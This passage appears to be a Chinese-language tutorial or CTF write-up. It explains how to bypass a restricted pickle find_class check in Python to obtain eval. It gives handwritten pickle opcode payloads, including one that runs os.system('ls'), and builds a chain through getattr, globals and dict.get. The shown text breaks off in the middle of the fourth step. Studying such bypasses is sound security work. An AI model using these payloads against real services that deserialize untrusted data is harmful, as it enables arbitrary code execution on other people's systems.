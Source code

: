 ```py
getattr(__builtins__,'eval')
__builtins__.__getattribute__('eval')
```
两种构造差异，第二种构造较为简单

```py
c = b'''cbuiltins
__getattribute__
(S'eval'
tR.
'''

print(pickle.loads(c))
# <built-in function eval>
```
在 find_class 看来，这段 payload 仅导入了 `builtins.__getattribute__` eval，只是一个字符串，因此可以绕过获取到 eval 函数。
```py
c = b'''cbuiltins
__getattribute__
(S'eval'
tR(S'__import__("os").system("ls")'
tR.
'''
```
第一种绕过的方式较为复杂，需要经过如下的几个步骤：
1. 第一步：获取 getattr 函数。这一步的 pickle 可以写为
   ```py
   c = b'''cbuiltins
   getattr
   .
   ```
2. 由于 pickle 不能仅仅只导入一个模块，因此无法直接获取 builtins 模块。
   也就是说还需要换一种方式获取 `__builtins__`, 例如使用 gloabls() 函数。
   ```py
   getattr(globals()['__builtins__'],'eval')
   ```
   这样一来，第二步需要获取 globals 函数并执行，这一步的 pickle 可以写为
   ```py
   c = b'''cbuiltins
   globals
   (tR.
   '''
   ```
3. 由于 pickle 不支持字典索引，因此需要通过 dict 的 get 函数来获取 `globals()['__builtins__']`
   于是 payload 需要再进行变换。
   ```py
   getattr(dict.get(globals(),'__builtins__'),'eval')
   ```
   第三步是需要获取 dict.get 函数。当然，这里的导入层数为 3，c 操作码只能够导入 2 层，因此这里需要用到前面的 getattr 函数，也就是通过 `getattr(dict,'get')` 的方式获取 get 函数 
   ```py
   c = b'''cbuiltins
   getattr
   (cbuiltins
   dict
   S'get'
   tR.
   '''
   ```
4. 获取到 get 函数后，就可以从 globals() 获取 `__builtins__` 
   ```py
   c = b'''cbuiltins
   getattr
   (cbuiltins
   dict
   S'get'
   ```